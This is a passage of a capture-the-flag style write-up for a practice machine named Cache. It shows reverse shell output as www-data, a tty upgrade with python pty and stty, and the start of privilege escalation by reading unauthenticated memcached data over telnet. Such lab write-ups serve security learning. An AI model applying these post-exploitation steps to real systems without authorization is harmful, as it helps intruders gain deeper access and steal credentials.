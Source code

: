 ```console
Linux cache 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:38:52 up 46 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

## Getting a proper Shell
```console
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@cache:/$
```
Hit `CTRL + z` to background this process and on local box run
```console
local@local:~/Documents/htb/boxes/cache$ stty raw -echo
```
Then type `fg` and hit enter twice to go to the earlier backgrounded process. Then export TERM variable as xterm.
```console
www-data@cache:/$ export TERM=xterm
```
Now we get a proper shell with autocompletion and we can clear the screen with `clear` or `CTRL + l`.

# Privilege Escalation
### Checking for listening tcp port
```console
www-data@cache:/home/ash$ ss -lt
State    Recv-Q    Send-Q        Local Address:Port         Peer Address:Port   
LISTEN   0         80                127.0.0.1:mysql             0.0.0.0:*      
LISTEN   0         128               127.0.0.1:11211             0.0.0.0:*      
LISTEN   0         128           127.0.0.53%lo:domain            0.0.0.0:*      
LISTEN   0         128                 0.0.0.0:ssh               0.0.0.0:*      
LISTEN   0         128                       *:http                    *:*      
LISTEN   0         128                    [::]:ssh                  [::]:* 
```
Here I found extra ports which are only listening on local interface `127.0.0.1`, means they can not be accessed from outside. One is MYSQL running on port 3306 which we already exploited while getting a reverse shell and other service which is listening on port 11211.  
 The service that usually runs on the port 11211 is **memcache**. Memcache is object caching system which stores values in **key:value** pairs and the interesting thing about memcache is that it doesnot implement any authentication. So we can use telnet to connect and look all the key value pairs on the memcache.

## Extracting key:value pairs from memcache
```console
www-data@cache:/dev/shm$ telnet 127.0.0.1 11211
Trying 127.0.0.1...     
Connected to 127.0.0.1.     
Escape character is '^]'.

stats items                                 
STAT items:1:number 5                       
STAT items:1:number_hot 0                   
STAT items:1:number_warm 0                  
STAT items:1:number_cold 5                  
STAT items:1:age_hot 0                      
STAT items:1:age_warm 0                     
```